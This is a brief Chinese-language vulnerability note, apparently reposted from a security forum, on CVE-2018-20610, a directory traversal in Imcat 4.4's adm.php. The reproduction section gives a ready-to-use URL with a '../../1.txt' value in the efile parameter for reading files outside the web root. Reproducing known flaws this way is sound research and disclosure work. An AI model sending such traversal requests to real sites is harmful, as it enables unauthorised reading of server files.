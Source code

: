 # （CVE-2018-20610）Imcat 4.4 敏感信息泄露

> 原文：[https://www.zhihuifly.com/t/topic/2975](https://www.zhihuifly.com/t/topic/2975)

# （CVE-2018-20610）Imcat 4.4 敏感信息泄露

## 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本中的root/run/adm.php文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

先在D盘创建1.txt

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

```
http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn 
```

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

## 参考链接

> https://github.com/AvaterXXX/CVEs/blob/master/imcat.md